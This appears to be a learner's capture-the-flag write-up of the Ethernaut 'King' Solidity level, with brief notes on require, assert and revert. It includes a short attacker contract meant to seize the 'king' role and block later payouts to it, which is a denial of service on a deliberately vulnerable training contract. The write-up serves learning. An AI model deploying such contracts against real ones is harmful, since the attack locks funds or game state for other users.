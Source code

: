 ## Description
It wasn't clear where to start, I couldn't find anywhere to try to exploit or hack anything except in these lines :
```
require(msg.value >= prize || msg.sender == owner);
```
```
payable(king).transfer(msg.value);
```
That's why I started to read first for require, because I realized that I don't fully understand how it works inside. In the end, I learned a lot of new things for myself. I'll leave it in my notes. I realized that the solution is probably in the second line. Went to read more for receiving, found a solution to the previous problem that I missed. And came up with the idea that king would be the address of the contract and make some receive function in it.
```
interface IKing {
    
}

contract Hack{
    IKing public king;

    constructor(address payable _king) {
        king = IKing(_king);
    }

    receive() external payable {
        payable(address(king)).transfer(msg.value);
    }

}
```
## Notes
revert - for more complex logic, with if else
assert - to check for a logic error that should not be there, takes away the gas, saves the error in bytecode differently (Panic(uint256) 0x00, 0x01 ...) so that it can be traced as far as I understand. a > b+c; assert( a > b). internal errors. 
require - for user checking.
But while reading about all this, I came across how to fulfill the previous task
![](selfdestruct_for_lvl7.png)

## Updated
It worked through the call.
```
payable(address(king)).call{value: msg.value}("");
```
Read the answers, I didn't get that it is possible to remove the receive from the contract and that's it.  